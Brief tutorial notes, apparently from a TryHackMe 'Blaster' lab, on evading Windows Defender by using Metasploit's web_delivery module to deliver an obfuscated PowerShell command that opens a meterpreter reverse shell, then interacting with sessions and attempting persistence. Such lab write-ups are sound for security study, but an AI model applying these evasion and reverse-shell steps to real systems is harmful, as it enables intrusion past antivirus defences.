

Bypassing Windows Defender
Bypassing Windows Defender
If Windows defender is active we can use the metaspolit framework to bypass it. We will use web delivery of an obscutated Powershell Command which will give a meterpreter reverse shell and from there we can implement persistence.
Exploit: exploit/multi/script/web_delivery
Change Default Payload from Python to PSH (Powershell)

Set payload : set payload windows/meterpreter/reverse_http
Then set payload options and run the command.

We take the Powershell command & run it on the target machine.
Example:
Following is of THM:Blaster. This machine has Windows Defender active and we are currently have NT Authority/Sytem privilege. We will use the metasploit module for backdoor creation & Persistence which evades the Windows defender,
Note: Run the exploit in background, else press enter now to go to meteasploit terminal.
Interact with the session
sessions -l
sessiosn -i 1
Note: We get a fully functional meterpreter shell even if Windows defender is active,
However, persistence module won't work until windows defender is disabled.